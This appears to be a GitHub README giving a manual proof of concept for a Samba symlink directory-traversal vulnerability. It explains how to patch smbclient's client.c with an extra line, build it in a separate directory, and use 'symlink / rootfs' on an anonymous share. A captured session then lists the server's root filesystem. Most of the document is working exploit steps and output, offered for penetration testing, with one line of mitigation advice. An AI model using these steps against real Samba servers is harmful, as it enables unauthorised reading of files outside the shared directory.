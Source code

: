 # Symlink-Directory-Traversal-smb-manually


Samba symlink traversal manual exploit

### Introduction 

Samba is prone to a directory-traversal vulnerability because the application fails to sufficiently sanitize user-supplied input, Exploits would allow an attacker to access files outside of the Samba user's 	root directory to obtain sensitive information and perform other attacks.
Administrators should be careful and set 'wide links = no' in the '[global]' section of 'smb.conf.
 
A proof of concept of Symlink Directory Traversal on Samba, here i will explain how to install the smbclient on an external location to use for the exploitation and also what to change.

The original Manually exploitation explained in the link ( https://www.exploit-db.com/exploits/33599) doesn't work without adding an other code line in the client.c

### First step

We have to download a samba source code from the forge, i used the version 3.4.5, here you can find the download link ( https://download.samba.org/pub/samba/stable/)

```
$ tar -xvzf samba-3.4.5.tar.gz
$ cd samba-3.4.5/source3/client/
```
	

### Modification of client.c

You have to modify this file like in the url  ( https://www.exploit-db.com/exploits/33599) and also adding the line like below :

*************
	targetname = talloc_asprintf(ctx,"%s",buf);   // Add this to remove the prepending //host/share 
	if (!cli_unix_symlink(targetcli, targetname, newname)) {
		d_printf("%s symlinking files (%s -> %s)\n",
			cli_errstr(targetcli), newname, targetname);
		return 1;
	}
**********************

You can show the client.c symlink section after modification in the screen below. Save it , and you have to install the package.

![client.c](https://github.com/roughiz/Symlink-Directory-Traversal-smb-manually/blob/master/clientMoif_2019-01-13_15:47__10.11.1.136.png)

### Install Package externally to use for your pentest tests

In my case i want to use this  smb client modified version just for my pentest tests, so the idea is to install it in a directory instead of a global installation.

We will use the configure file to create our Makefile with the dir installation location like :
```
$ cd samba-3.4.5/source3/
$ ./configure --prefix=/path/to/destination/directory/installation
$ make && make install
$ cd /path/to/destination/directory/installation/bin
```

We have to specify the library location in our bash env like :

```
$ export LD_LIBRARY_PATH="/path/to/destination/directory/installation/lib:$LD_LIBRARY_PATH"
```
And finnaly run smbclent :

```
$ ./smbclient //192.169.1.12/Share_Name -N

```
### Proof of concept

```
$ ./smbclient //192.169.1.12/Share_Name -N

smb: \> posix
Server supports CIFS extensions 1.0
Server supports CIFS capabilities acls pathnames
smb: \> ls
  .                                   D        0  Sun Jan 13 15:13:58 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
		61335 blocks of size 131072. 50251 blocks available

smb: /> symlink / rootfs
smb: /> ls
  .                                   D        0  Sun Jan 13 15:54:10 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
  rootfs                              D        0  Wed Aug 26 11:54:18 2009

		61335 blocks of size 131072. 50251 blocks available
smb: /> cd rootfs/
smb: /rootfs/> ls
  .                                   D        0  Wed Aug 26 11:54:18 2009
  ..                                  D        0  Wed Aug 26 11:54:18 2009
  cdrom                               D        0  Thu Sep  6 01:43:19 2007
  var                                 D        0  Thu Sep  6 01:45:53 2007
  selinux                             D        0  Wed Mar  7 23:56:09 2007
  home

```

